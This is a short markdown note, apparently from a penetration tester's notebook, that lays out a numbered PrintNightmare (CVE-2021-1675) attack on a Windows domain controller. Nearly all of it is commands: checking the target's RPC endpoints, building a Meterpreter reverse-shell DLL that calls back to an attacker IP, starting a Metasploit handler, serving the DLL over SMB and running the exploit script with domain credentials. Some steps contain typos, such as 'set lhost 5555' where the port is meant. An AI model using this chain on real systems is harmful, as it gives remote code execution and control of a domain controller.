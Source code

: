 ```yaml
---
title: PRINTNIGHTMARE ATTACK
updated: 2023-09-29 05:23:13Z
created: 2023-09-29 05:19:56Z
latitude: -35.28093680
longitude: 149.13000920
altitude: 0.0000
---
```


# PRINTNIGHTMARE ATTACK
1. `rpcdump.py @<DC IP> | egrep 'MS-RPRN|MS-PAR'` (reports if vulnerable)
2. Download **CVE-2021-1675.py** 
3. `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<attacker IP> LPORT=5555 -f dll > shell.dl`l
4. `msfconsole` 
5. `use multi/handler`
6. `set payload windows/x64/meterpreter/reverse_tcp`
7. `set lhost <attacker IP>` 
8. `set lhost 5555`
9. `run`
10. `smbserver.py share 'pwd' -smb2support` (run in same folder as shell.dll)
11. `python3 CVE-2021-1675.py DOMAIN.local/user:password@<DC IP> '\\<attacker IP>\share\shell.dll'`